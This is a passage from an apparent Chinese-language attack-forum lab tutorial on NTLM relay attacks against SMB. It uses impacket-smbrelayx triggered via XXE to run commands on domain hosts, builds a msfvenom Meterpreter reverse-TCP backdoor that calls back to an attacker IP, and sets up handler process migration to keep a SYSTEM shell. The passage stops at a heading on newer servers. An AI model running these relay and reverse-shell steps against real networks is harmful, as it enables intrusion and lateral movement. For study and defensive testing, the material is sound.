 ntlmrelay原理：  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-36ca5d2c575095218f494830531b86f516ac4af3.png)  
基本流程如上图所示，在客户端的视角里，攻击者就是他要访问的服务端，它在与攻击者这台主机进行NTLM认证，而整个流程也只有攻击者这台主机与其进行交互。  
在服务端的视角里，攻击者是客户端，是攻击者在向服务端证明自己的身份。通过中间人攻击的方法，攻击者可以伪造成客户端来完成身份验证。  
整个ntlm认证过程中，攻击者相当于一个中间人的作用，在不同的认证流程中，扮演不同的认证角色。

#### 一、中继到smb

默认情况，dc开启smb签名认证。  
其他域内主机未开启。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-f8405547de92468d83306db13e37ad9882011b62.png)

攻击机kali使用smbrelayx临时起一个SMB服务。

```php
impacket-smbrelayx -h 192.168.20.111 -c hostname
```

利用xxe发送http请求  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-b20335c209d8abe046bf0434970a5accfe4c623c.png)  
在机器上执行命令成功。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-86f599c53766be340207a21bc61462713067c33d.png)

或者通过可执行文件直接上线。（工具smbrelay）（联动msf的远控）  
生成一个后门文件。

```php
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.20.151 lport=4444 -f exe -o exp.exe

```

开启smb服务，让目标机器获取攻击机kali的smb服务上的exp.exe并且执行。

```php
impacket-smbrelayx -h 192.168.20.111 -e exp.exe
```

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-ce89b8d8c7fd837ed9c638405b77191be80d4530.png)  
通过xxe发送请求  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-71d1ddf04fb55eda4d78b2ad40cedad539f6c40d.png)  
目标机器上线msf  
但是session上线之后会自动断掉。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-41bc17df745b04b099d84c5aa6bb9799b8e70cb9.png)  
后面查阅到  
需要使用exploit/multi/handler，配置AutoRunScript，当获取到shell让他进程自动迁移，避免shell文件被删除时连接的shell断开。并且此时弹回来的权限为system。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-508db50c4b71f66b0445ef7569f0af7b0af16718.png)  
（在横向移动中，445端口用来进行net use的ipc连接，在工具smbrelayx中，起一个445的smb server来执行命令，还是工具中用到了wmic来执行命令并且通过ipc连接来读取命令执行的结果。同理上线msf也是一样，通过wmic来执行命令获取到攻击机kali的smb上的远控木马到本地，之后再通过wmic去执行命令执行并上线）

##### 高版本server执行失败的情况
